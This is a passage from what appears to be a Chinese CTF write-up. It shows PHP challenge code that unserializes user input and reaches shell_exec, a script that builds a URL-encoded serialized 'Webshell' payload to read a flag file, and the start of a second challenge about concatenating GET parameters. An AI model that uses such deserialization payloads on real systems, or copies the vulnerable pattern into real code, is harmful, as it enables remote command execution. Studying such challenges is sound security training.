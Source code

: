 ```php
        }

        public function exec($cmd) {
            $result = shell_exec($cmd);
            echo $result;
        }
    }

    if(isset($_GET['cmd'])) {
        $serializecmd = $_GET['cmd'];
        $unserializecmd = unserialize($serializecmd);
        $unserializecmd->init();
    }
    else {
        highlight_file(__FILE__);
    }

?> 
```

一个简单的php反序列化

直接构造：

```php
<?php
class Webshell {
    public $cmd = "cat f*";
}
echo urlencode(serialize(new Webshell()));

输出：
O%3A8%3A%22Webshell%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A6%3A%22cat+f%2A%22%3B%7D
```



### 化零为整            

```php
<?php

highlight_file(__FILE__);
include "flag.php";

$result='';

for ($i=1;$i<=count($_GET);$i++){
    if (strlen($_GET[$i])>1){
        die("你太长了！！");
        }
    else{
    $result=$result.$_GET[$i];
    }
}

if ($result ==="大牛"){
    echo $flag;
}
```
